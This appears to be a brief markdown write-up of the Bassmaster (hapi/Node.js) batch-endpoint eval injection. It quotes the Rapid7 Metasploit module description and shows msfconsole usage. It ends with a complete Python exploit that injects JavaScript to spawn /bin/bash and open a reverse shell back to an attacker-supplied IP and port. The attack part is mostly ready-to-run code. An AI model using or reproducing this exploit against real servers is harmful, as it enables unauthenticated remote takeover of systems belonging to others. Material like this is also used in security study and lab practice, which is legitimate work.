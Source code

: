 #  Bassmaster NodeJS Arbitrary JavaScript Injection Vulnerability 
- https://www.rapid7.com/db/modules/exploit/multi/http/bassmaster_js_injection/

Bassmaster Batch Arbitrary JavaScript Injection Remote Code Execution
Eval injection vulnerability in the internals.batch function in lib/batch.js in the bassmaster plugin prior to 1.5.2 for the hapi server framework for Node.js allows remote malicious users to execute arbitrary Javascript code via unspecified vectors.
This module exploits an un-authenticated code injection vulnerability in the bassmaster nodejs plugin for hapi. The vulnerability is within the batch endpoint and allows an attacker to dynamically execute JavaScript code on the server side using an eval. Note that the code uses a '\x2f' character so that we hit the match on the regex.
``` shell
msf > use exploit/multi/http/bassmaster_js_injection
      msf exploit(bassmaster_js_injection) > show targets
            ...targets...
      msf exploit(bassmaster_js_injection) > set TARGET <target-id>
      msf exploit(bassmaster_js_injection) > show options
            ...show and set options...
      msf exploit(bassmaster_js_injection) > exploit
```

## eval()
- https://www.w3schools.com/jsref/jsref_eval.asp
```javascript
let x = 10;
let y = 20;
let text = "x * y";
let result = eval(text);
```

## exploit 
```python
import requests,sys

if len(sys.argv) != 4:
    print "(+) usage: %s <target> <attacking ip address> <attacking port>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = "//bin//bash"

attackerip = sys.argv[2]
attackerport = sys.argv[3]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'

shell = 'var net = require(\'net\'),sh = require(\'child_process\').exec(\'%s\'); ' % cmd
shell += 'var client = new net.Socket(); '
shell += 'client.connect(%s, \'%s\', function() {client.pipe(sh.stdin);sh.stdout.pipe(client);' % (attackerport, attackerip)
shell += 'sh.stderr.pipe(client);});' 

request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % shell

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```
